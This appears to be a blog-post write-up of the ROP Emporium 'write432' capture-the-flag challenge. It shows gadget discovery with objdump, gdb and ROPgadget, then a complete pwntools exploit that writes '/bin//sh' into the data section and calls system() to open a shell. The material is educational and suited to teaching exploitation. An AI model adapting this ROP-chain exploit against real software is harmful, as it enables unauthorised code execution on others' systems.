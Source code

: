 ```yaml
---
layout: post
title: ROP Emporium - write432
---
```


### Instruction
Once you've figured out how to write your string into memory and where to write it, go ahead and call system() with its location as your only argument. Are you going to cat flag.txt or drop a shell with /bin/sh? Try to wrap some of your functionality in helper functions, if you can write a 4 or 8 byte value to a location in memory, can you craft a function (in python using pwntools for example) that takes a string and a memory location and returns a ROP chain that will write that string to your chosen location? Crafting templates like this will make your life much easier in the long run.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Find addr data section
```bash
objdump -D write432 | grep data_start | awk '{print $1}'
```
- __data_start : 0x804a028

### Check useful function
```
gef➤  disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:     mov    DWORD PTR [edi],ebp
   0x08048672 <+2>:     ret    
   0x08048673 <+3>:     xchg   ax,ax
   0x08048675 <+5>:     xchg   ax,ax
   0x08048677 <+7>:     xchg   ax,ax
   0x08048679 <+9>:     xchg   ax,ax
   0x0804867b <+11>:    xchg   ax,ax
   0x0804867d <+13>:    xchg   ax,ax
   0x0804867f <+15>:    nop
End of assembler dump.
```
- mov    DWORD PTR [edi],ebp

### ROPgadget to search gadgets
```bash
ROPgadget --binary write432 | grep "pop edi"
```
```
0x080486d5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486d4 : jecxz 0x8048661 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d3 : jne 0x80486c1 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486d6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080486d8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486da : pop edi ; pop ebp ; ret
0x080486d9 : pop esi ; pop edi ; pop ebp ; ret
```
- 0x080486da : pop edi ; pop ebp ; ret

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('write432')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')
command = '/bin//sh'

DATA_START = 0x804a028

## gadgets to write datas
POP_EDI_POP_EBP = 0x080486da

rop = ROP(exe)
for _ in range(0, len(command), 4):
	rop.raw(POP_EDI_POP_EBP)
	rop.raw(DATA_START + _)
	rop.raw(command[_:_ + 4])
	rop.raw(exe.symbols['usefulGadgets'])

rop.system( DATA_START )

io.sendline(payload + rop.__str__())
io.interactive()
```